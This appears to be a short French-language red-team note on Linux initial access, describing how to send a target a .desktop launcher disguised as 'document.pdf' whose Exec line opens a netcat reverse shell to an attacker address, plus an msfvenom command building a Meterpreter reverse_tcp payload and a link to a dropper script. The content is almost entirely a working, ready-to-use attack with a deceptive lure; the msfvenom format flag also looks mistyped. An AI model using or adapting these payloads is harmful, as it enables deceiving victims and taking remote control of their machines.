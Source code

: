 Fait partie la phase de l'access initial

Le but est d'envoyer un fichier `.desktop` a notre cible et obtenir un reverse shell.

```sh
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh 192.168.45.128 4444
Icon=/home/kali/Pictures/test.png
```

Download `LinDrop.py` at [LinDrop](https://www.obscurechannel.com/x42/code.html)

```sh
msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp LPORT=9001 LHOST=192.168.45.128 -f ef > payload
```